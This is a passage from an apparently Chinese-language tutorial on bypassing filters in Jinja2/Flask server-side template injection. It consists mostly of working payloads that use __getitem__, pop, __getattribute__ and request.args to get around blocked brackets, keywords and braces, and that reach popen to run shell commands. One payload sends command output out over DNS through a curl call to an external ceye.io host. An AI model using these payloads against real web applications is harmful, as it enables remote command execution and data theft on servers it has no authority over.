 也就是说可以使用`__getitem__`和`pop`替代中括号，取列表的第n位

payload如下

```go
{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(433).__init__.__globals__.popen('whoami').read()}



 



{{().__class__.__base__.__subclasses__().pop(433).__init__.__globals__.popen('whoami').read()}}
```

- 魔术方法的中括号

调用魔术方法本来是不用中括号的，但是如果过滤了关键字，要进行拼接的话就不可避免要用到中括号，像这里如果同时过滤了class和中括号

可用`__getattribute__`绕过

```go
{{"".__getattribute__("__cla"+"ss__").__base__}}
```

或者可以配合`request`一起使用

```go
{{().__getattribute__(request.args.arg1).__base__}}&arg1=__class__
```

payload如下

```go
{{().__getattribute__(request.args.arg1).__base__.__subclasses__().pop(376).__init__.__globals__.popen(request.args.arg2).read()}}&arg1=__class__&arg2=whoami
```

这种同样是绕过关键字的方法之一

#### 过滤双大括号

过滤了`{{`和`}}`

- 使用dns外带数据

用`{%%}`替代了`{{}}`，使用判断语句进行dns外带数据

```go
{% if ().__class__.__base__.__subclasses__()[433].__init__.__globals__['popen']("curl `whoami`.k1o75b.ceye.io").read()=='kawhi' %}1{% endif %}
```

然后在ceye平台接收数据即可

![img](https://gitee.com/eviden/img/raw/master/202406141122799.png)

- 盲注
